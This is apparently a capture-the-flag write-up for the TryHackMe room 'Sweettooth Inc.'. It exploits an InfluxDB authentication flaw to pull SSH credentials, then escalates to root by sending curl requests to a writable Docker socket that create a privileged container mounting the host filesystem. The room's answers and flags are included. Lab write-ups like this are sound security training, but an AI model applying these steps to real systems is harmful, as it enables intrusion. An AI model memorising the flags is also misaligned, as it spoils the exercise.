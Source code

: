 ```yaml
---
title: Sweettooth Inc.
layout: post
author: Bit Criminals Team
date: 2021-07-25 20:00:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/sweettoothinc
---
```



On enumerating we get the following three open ports.

![](/images/leo/nmap.png)  
 
```
Do a TCP portscan. What is the name of the database software running on one of these ports?
influxdb
```

On looking for influxdb vulnerbilities I found this resource <https://github.com/c-sh0/security/blob/master/influxdb.txt>

Using the url <10.10.127.163:8086/debug/requests>

![](/images/leo/user1.png)

```
What is the database user you find?
o5yY6yya
```

We can get access to the database following the above resource but I found this script 
<https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933>

Running the script 

![](/images/leo/script.png)

Also found this very helpful cheatsheet for influxdb <https://gist.github.com/tomazursic/6cc217e2644c619ceceefb8ce824925b>

Filling in the database as ``` tanks ```

Using the query as ``` SHOW MEASUREMENTS ```

![](/images/leo/tanks.png)

Then using the query ``` SELECT * FROM water_tank ```
Gives us the temperatures of water tank at diffrent time

Using <https://www.epochconverter.com/> to convert the timestamp to human readable date time format 

![](/images/leo/epoch.png)

```
What was the temperature of the water tank at 1621346400 (UTC Unix Timestamp)?
22.5
```
Now we use exit to change our database and fill in ``` mixer ```

Using the query ``` SHOW MEASUREMENTS ```

![](/images/leo/mixer.png)

Then using the query as ``` SELECT * FROM mixer_stats ```
Gives us the motor rpm at different time 
Looking through them we find the highest rpm 

```
What is the highest rpm the motor of the mixer reached?
4875
```

Again we change the database to ``` creds ```
Using the query ``` SHOW MEASUREMENTS ``` 

![](/images/leo/creds.png)

Then using the query as ``` SELECT * FROM ssh ```

![](/images/leo/ssh.png)

```
What username do you find in one of the databases?
uzJk6Ry98d8C
```

Now that we have the username and password we can ssh into the machine

```
ssh uzJk6Ry98d8C@10.10.127.163 -p 8086
```

Now we can read the user.txt

```
user.txt
THM{V4w4FhBmtp4RFDti}
```

Running linpeas tells us that we ```write permission over docker socket /run/docker.sock```
But we cannot use the docker command 

We find this resource <https://securityboulevard.com/2019/02/abusing-docker-api-socket/>

Basically we are going to create a container on the Nginx and then gain root access through it.

Using the command 
``` 
curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/create?name=test -d '{"Image":"sweettoothinc", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
```

Returns the id of our container
```
"Id":"39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3","Warnings":null
```

Now we start the container using the command
```
curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3/start?name=test
```

We gain root shell using the command
```
docker -H 127.0.0.1:2376 exec -it 39d4cf768ec3 /bin/bash
```

And voila we are root now

```
root@39d4cf768ec3:/# whoami
root
root@39d4cf768ec3:/# cd /root
root@39d4cf768ec3:/root# ls
root.txt
root@39d4cf768ec3:/root# cat root.txt
```
```
/root/root.txt
THM{5qsDivHdCi2oabwp}
```

Looking into the /mnt directory we find another root directory

```
root@39d4cf768ec3:/mnt/var/lib/docker# cd /mnt
root@39d4cf768ec3:/mnt# ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
root@39d4cf768ec3:/mnt# cd root
root@39d4cf768ec3:/mnt/root# ls
root.txt
root@39d4cf768ec3:/mnt/root# cat root.txt
```

```
The second /root/root.txt
THM{nY2ZahyFABAmjrnx}
```



